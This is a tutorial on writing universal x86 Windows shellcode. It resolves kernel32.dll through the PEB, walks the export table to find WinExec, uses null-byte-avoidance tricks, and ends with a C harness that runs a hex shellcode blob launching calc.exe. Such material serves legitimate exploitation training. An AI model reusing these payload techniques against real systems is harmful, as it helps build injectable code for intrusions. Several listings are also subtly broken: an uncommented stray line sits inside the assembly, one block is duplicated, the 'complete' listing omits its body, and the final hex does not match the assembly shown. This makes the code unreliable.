

:orphan:
(windows-universal-shellcoding-x86)=

# Windows Universal Shellcoding x86

Previously we discussed the [basics of windows shellcoding](basic-windows-shellcoding), this method is compact and does not cause memory corruption upon exit. However, it has some disadvantages as well.

This shellcode contains hardcoded addresses, meaning it can only be used against a specific system version, in this case Windows XP Service Pack 1.

As stated previously, all system DLLs are loaded at static addresses within the same service pack version.

Due to this, shellcode that operates on XP Service Pack 1 is ineffective against SP2 and SP3. Our next step will involve the creation of universal shellcode that will run on any service pack without requiring the hardcoding of addresses.

How can this be achieved?

Windows is a highly organized operating system.
In addition to program data, each process also contains Operating System control elements. These elements consist of structured data. C/C++ structures are data types comparable to arrays.

Microsoft documents some of the structures on their official website.

A portion of them have been reversed by other individuals and organizations and made available to the public. These structures are referred to as _"undocumented"_ because they lack official documentation.

Structures are similar to database tables in that they organize data. Each field of a structure may have a distinct data type, but these types must be predefined.

As you are already aware, each data type has a maximum allowable size in bytes. Knowing what data types are members (fields) of a structure provides information about when a particular field begins and ends, as well as the offset from the beginning of the structure at which a particular field can be located.

In contrast to a database, where all data types are standard, such as varchar, timestamp, and int, data types in Windows structures are typically custom.

Microsoft created them, so it is normal for a structure to contain data types that are unfamiliar to you.
The only way to determine the amount of memory required to store a particular data type is to read the documentation or, if none is available, attempt to reverse engineer the structure.

Fortunately, this article will rely on structures that have already been reversed or documented.

If you want to be comfortable with debugging and exploiting in a Windows environment, you must become familiar with these data types, which may have a different size or name than the typical C/C++ data types.

Numerous structures are nested within one another, and Windows is built on top of them.

In the following paragraphs, you will see that there are structures that contain structures that contain other structures... and they are all used to build a functional, well-organized foundation for running a process in the Windows environment.

Similar to the exception handler information that was previously stored in `FS:[0]`, additional interesting information is stored in process memory.

The Process Environment Block is one such fascinating structure (PEB):

```cpp
typedef struct _PEB {
  BYTE                          Reserved1[2];
  BYTE                          BeingDebugged;
  BYTE                          Reserved2[1];
  PVOID                         Reserved3[2];
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  PVOID                         Reserved4[3];
  PVOID                         AtlThunkSListPtr;
  PVOID                         Reserved5;
  ULONG                         Reserved6;
  PVOID                         Reserved7;
  ULONG                         Reserved8;
  ULONG                         AtlThunkSListPtr32;
  PVOID                         Reserved9[45];
  BYTE                          Reserved10[96];
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  BYTE                          Reserved11[128];
  PVOID                         Reserved12[1];
  ULONG                         SessionId;
} PEB, *PPEB;

```

The _"Reserved"_ fields are not documented.

However, at this time, only the offsets and data type sizes are of interest. If we can locate the beginning of a structure and know its offsets, we can navigate to any field it contains, even if it is deeply nested.

It was discovered that if we can access `PEB`, it is possible to obtain the address of certain libraries and functions contained within them. This is the rationale behind all of these specific details on structures. Therefore, it will be possible to emulate Arwin at runtime and retrieve the current address of specific functions, rather than hardcode them. They can then be utilized further within the shellcode.

The following is a method for traversing Windows structures:

- The `PEB` address is stored `0x30` bytes from the beginning of the Thread Environment Block. The `TEB`'s address is stored in the `FS` segment register and can be shellcoded (so we know where to begin).

- `PEB + 0xC` Bytes contains the pointer to `PEB_LDR_DATA`, which is a doubly linked list containing information about loaded DLLs.

- In `PEB_LDR_DATA`, `0x14` bytes from the beginning is a pointer to the first DLL loaded in memory from a list titled `InMemoryOrderModuleList`.

- On `Windows XP` (including all service packs in our case), `ntdll.dll` and `kernel32.dll` reside, respectively, in the second and third entries. Remember the `Arwin` tool that utilized `kernel32.dll` functions to determine the address of a function? The same is possible in Assembly.

This possible with the following Assembly code:

```nasm
mov ebx, fs:0x30      ; Get pointer to PEB
mov ebx, [ebx + 0x0C] ; Get pointer to PEB_LDR_DATA
mov ebx, [ebx + 0x14] ; Get pointer to first entry in InMemoryOrderModuleList
mov ebx, [ebx]        ; Get pointer to second (ntdll.dll) entry in InMemoryOrderModuleList
mov ebx, [ebx]        ; Get pointer to third (kernel32.dll) entry in InMemoryOrderModuleList
mov ebx, [ebx + 0x10] ; Get kernel32.dll base address
```

When the code is compiled, it has a significant disadvantage: it contains null bytes. Consequently, it cannot be inserted into any exploit buffer. To get rid of them, we must refactor the code slightly.

```nasm
xor esi, esi
mov ebx, [fs:30h + esi] ; written this way to avoid null bytes
mov ebx, [ebx + 0x0C]
mov ebx, [ebx + 0x14]
mov ebx, [ebx]
mov ebx, [ebx]
mov ebx, [ebx + 0x10]   ; ebx holds kernel32.dll base address
mov [ebp-8], ebx        ; kernel32.dll base address
```

The address of `kernel32.dll` is stored in the `ebx` register as a consequence of the preceding shellcode. Now let's determine how to locate the `WinExec()` address using it.

A DLL file, which is a dynamic-link library, is a `PE` (Portable Executable) file. Once again, this file format has structured metadata that can be traversed to obtain valuable information.

When discussing a `PE` Executable file image, the term `RVA` can be used (Relative Virtual Address). RVA represents the address relative to the beginning of the file image, or the offset from the base address. Also, when discussing DLLs, the term _"Export"_ is frequently used. DLL Export functions are, in a nutshell, the functions that can be utilized upon loading the library into the process memory.

There are the following structures in PE format:

- The Export Table is stored at RVA 0x78 (offset from the file's beginning) The Export Table contains information about all of the DLL's functions.
- Export table + `0x14` contains a number of functions exported by the DLL.
- Export table + `0x1C` is the Address Table that contains the addresses of functions exported.
- Export Table + `0x20` represents the Name Pointer Table, which stores pointers to the exported function names.
- Export Table + `0x24` is the Ordinal Table, which stores the function positions in the Address Table.

Let's determine precisely what is required to obtain the address of a specific function.

- Initially, we determine the offset to the PE signature (RVA) (base address plus `0x3c`)
- We then determine the address associated with the PE signature (base address plus `RVA`).
- Next, we determine the RVA for the Export Table (PE signature plus `0x78`).
- We determine the address of the Export Table based on the RVA (base address plus `RVA` of the export table).
- Afterwards, we locate the `RVA` of the Address table (Export table plus `0x1C`).
- Next, the address of the Address Table is determined (base address plus RVA of address table).
- Determine the RVA of the Name Pointer Table (table export plus `0x20`).
- Then, locate the Address of the Name Pointer Table (the base address plus the Name Pointer Table's RVA).
- In the final two steps, the RVA of the Ordinal Table (Export Table plus `0x24`) will be determined.
- Then, the address of the Ordinal Table will be calculated (using the base address plus the `RVA` of the ordinal table).

Next, a loop must be created.
The loop will traverse the Name Pointer Table (since we know its address) and compare each entry to `WinExec` while remembering the table index of the currently checked item.

Upon completion, we must locate the index of the WinExec function in the Ordinal Table (`Address of Ordinal + (index *2)`), as each record in the table consists of 2 bytes.

Using the Ordinal number, we navigate to the Address Table at the `Address Table + (Ordinal Number * 4`) position, given that each Ordinal Table entry occupies `4 bytes`. Using the `RVA` and the DLL's base address, we can determine the function address.

Let's begin by pushing the string `WinExec` onto the stack.

We will need to remember its location and use it as a point of reference when searching for a name within the DLL.

If you attempt to `xor esi` and then `push esi` which contains `0` after the `xor` operation, and then push the string `WinExec`, you will encounter null bytes. Since the stack is `4-byte` aligned, we cannot simply push the `7-byte` Winexec.

Thus, we will use a trick to place the WinExec\00 string
onto the stack. Due to the endianness, we can actually
push:

```{code-block} nasm
:force:
\x00cex ; first, and then push
EniW
```

Therefore, we only need to focus on the initial push.
We may not `push 0` directly, but since ASCII is one of the ways that raw data is transmitted, this is unnecessary. Once bytes are interpreted, we can simply push numbers. which correspond to ASCII characters

If we try to `push 0x00636578 (\x00cex)`, we will deal with null bytes again. But we can push a number that is incremented by a value of choice (that does not contain null bytes).

Using this method, we can place a single null byte on the stack by concealing it within basic arithmetic. By pushing "safe" values to a register, modifying them with arithmetic so that they reflect the desired ASCII values, and then pushing them onto the stack, many bad character restrictions can be circumvented.

The code for pushing winexec will then look like below:

```nasm
xor esi, esi
mov esi, 0x01646679
sub esi, 0x01010101
push esi            ; null byte trick
push 456e6957h
mov [ebp-4], esp    ; var4 = "WinExec\x00"
```

Let's return to the function searching routine; we must incorporate the structure traversal algorithm that was just described. The Winexec name push will also be implemented.

```nasm
mov eax, [ebx + 3Ch]
add eax, ebx
address + RVA of PE signature
mov eax, [eax + 78h]
add eax, ebx

mov ecx, [eax + 24h]
add ecx, ebx
mov [ebp-0Ch], ecx

mov edi, [eax + 20h]
add edi, ebx
mov [ebp-10h], edi

mov edi, [eax + 20h]
add edi, ebx
mov [ebp-10h], edi

mov edx, [eax + 1Ch]
add edx, ebx
mov [ebp-14h], edx

mov edx, [eax + 14h]

xor eax, eax
```

Loop:

```nasm
.loop:
    mov edi, [ebp-10h]
    mov esi, [ebp-4]
    xor ecx, ecx

    cld
    mov edi, [edi + eax*4]

    add edi, ebx
    add cx, 8
    repe cmpsb

    jz start.found

    inc eax
    cmp eax, edx
    jb start.loop

    add esp, 26h
    jmp start.end

.found:
    ; the counter (eax) now holds the position of WinExec
    mov ecx, [ebp-0Ch]     ; ecx = var12 = Address of Ordinal Table
    mov edx, [ebp-14h]     ; edx = var20 = Address of Address Table
    mov ax, [ecx + eax*2]
    mov eax, [edx + eax*4] ; eax = address of WinExec =
    add eax, ebx           ; = kernel32.dll base address + RVA of WinExec
```

At the conclusion of the resulting shellcode, `EAX` will contain the address of `WinExec`. The final step is to push WinExec's argument (the binary to be executed) onto the stack.

We will also use the second argument, window state, passing its default value `SW_SHOWDEFAULT`, which can also be passed as the number `10`.

We will push the entire binary path. Since it is perfectly 4-byte aligned, the push trick is unnecessary; we can push a register with a value of zero and then push the entire path in increments of `4` bytes:

```nasm
xor edx, edx
push edx

push 6578652eh
push 636c6163h
push 5c32336dh
push 65747379h
push 535c7377h
push 6f646e69h
push 575c3a43h
mov esi, esp    ; ESI "C:\Windows\System32\calc.exe"

push 10         ; window state SW_SHOWDEFAULT
push esi        ; "C:\Windows\System32\calc.exe"
call eax        ; WinExec
```

Finally, we will equip the shellcode with its own stack frame so as not to muck up the program – the shellcode is quite large, so it is good practice to keep the stack clean after it has completed.

We will construct a stack frame at the outset, save all register states before doing anything, then restore the registers and remove the stack frame at the conclusion.

Let's add it to the code and put all the pieces together to create a peb-based shellcode that functions:

```{code-block} nasm
:force:
[BITS 32]
start:
    push eax ; Save all registers
    push ebx
    push ecx
    push edx
    push esi
    push edi
    push ebp

    ; Establish a new stack frame
    push ebp
    mov ebp, esp
    sub esp, 18h ; Allocate memory on stack for local vars
```

```nasm
.end:
    ; resore all registers and exit
    pop ebp
    pop edi
    pop esi
    pop edx
    pop ecx
    pop ebx
    pop eax
    ret
```

Upon finishing, it’s time to compile the shellcode using
`nasm`, as follows:

```bash
nasm shellcode.asm –o shellcode.bin
```

We’ll also extract the opcodes in order to paste them into
the shellcode tester program, as follows:

```bash
python bin2shell.py shellcode.bin
```

Check:

```cpp
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char **argv) {
  int (*func)();
  func = (int(*)()) code;
  (int)(*func)();
}
```



## References

[WinExec](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec)

[Arwin](https://github.com/73696e65/windows-exploits/blob/master/arwin.c)

[Index of /pub/nasm/releasebuilds](https://www.nasm.us/pub/nasm/releasebuilds/?C=M;O=D)

> **Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html). In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.**
